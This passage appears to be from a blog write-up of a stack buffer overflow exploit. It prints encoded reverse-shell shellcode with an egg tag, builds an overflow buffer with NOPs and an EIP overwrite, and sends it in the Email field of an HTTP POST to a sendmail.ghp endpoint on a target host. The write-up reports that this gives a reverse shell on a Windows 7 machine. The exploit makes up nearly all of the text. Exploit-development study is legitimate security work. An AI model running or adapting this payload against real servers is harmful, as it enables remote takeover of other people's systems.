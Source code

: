 ``` ruby

Stage2 = ("r00tr00t"+ #"\xcc"*4064
"\xba\x20\xb3\xd2\x36\xdb\xd8\xd9\x74\x24\xf4\x5e\x33\xc9\xb1"
"\x52\x31\x56\x12\x03\x56\x12\x83\xce\x4f\x30\xc3\xf2\x58\x37"
"\x2c\x0a\x99\x58\xa4\xef\xa8\x58\xd2\x64\x9a\x68\x90\x28\x17"
"\x02\xf4\xd8\xac\x66\xd1\xef\x05\xcc\x07\xde\x96\x7d\x7b\x41"
"\x15\x7c\xa8\xa1\x24\x4f\xbd\xa0\x61\xb2\x4c\xf0\x3a\xb8\xe3"
"\xe4\x4f\xf4\x3f\x8f\x1c\x18\x38\x6c\xd4\x1b\x69\x23\x6e\x42"
"\xa9\xc2\xa3\xfe\xe0\xdc\xa0\x3b\xba\x57\x12\xb7\x3d\xb1\x6a"
"\x38\x91\xfc\x42\xcb\xeb\x39\x64\x34\x9e\x33\x96\xc9\x99\x80"
"\xe4\x15\x2f\x12\x4e\xdd\x97\xfe\x6e\x32\x41\x75\x7c\xff\x05"
"\xd1\x61\xfe\xca\x6a\x9d\x8b\xec\xbc\x17\xcf\xca\x18\x73\x8b"
"\x73\x39\xd9\x7a\x8b\x59\x82\x23\x29\x12\x2f\x37\x40\x79\x38"
"\xf4\x69\x81\xb8\x92\xfa\xf2\x8a\x3d\x51\x9c\xa6\xb6\x7f\x5b"
"\xc8\xec\x38\xf3\x37\x0f\x39\xda\xf3\x5b\x69\x74\xd5\xe3\xe2"
"\x84\xda\x31\xa4\xd4\x74\xea\x05\x84\x34\x5a\xee\xce\xba\x85"
"\x0e\xf1\x10\xae\xa5\x08\xf3\x11\x91\x2a\x02\xfa\xe0\x4a\x05"
"\x47\x6d\xac\x6f\xa7\x38\x67\x18\x5e\x61\xf3\xb9\x9f\xbf\x7e"
"\xf9\x14\x4c\x7f\xb4\xdc\x39\x93\x21\x2d\x74\xc9\xe4\x32\xa2"
"\x65\x6a\xa0\x29\x75\xe5\xd9\xe5\x22\xa2\x2c\xfc\xa6\x5e\x16"
"\x56\xd4\xa2\xce\x91\x5c\x79\x33\x1f\x5d\x0c\x0f\x3b\x4d\xc8"
"\x90\x07\x39\x84\xc6\xd1\x97\x62\xb1\x93\x41\x3d\x6e\x7a\x05"
"\xb8\x5c\xbd\x53\xc5\x88\x4b\xbb\x74\x65\x0a\xc4\xb9\xe1\x9a"
"\xbd\xa7\x91\x65\x14\x6c\xa1\x2f\x34\xc5\x2a\xf6\xad\x57\x37"
"\x09\x18\x9b\x4e\x8a\xa8\x64\xb5\x92\xd9\x61\xf1\x14\x32\x18"
"\x6a\xf1\x34\x8f\x8b\xd0"
)

crash = Stage2+"\x90"*(4072-len(Stage2))+EIP+"\x90"*16+Stage1

buffer  ="POST /sendmail.ghp HTTP/1.1 \r\n" 
buffer +="Email=" + crash + "&getPassword=Get+Password"

EFS = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
EFS.connect((sys.argv[1], 80))
EFS.send(buffer)
EFS.close()
```

In both cases firing this at our development Windows 7 box results in a reverse Shell!

![r00t]({{ "/images/Stack/r00t.png" | absolute_url }})


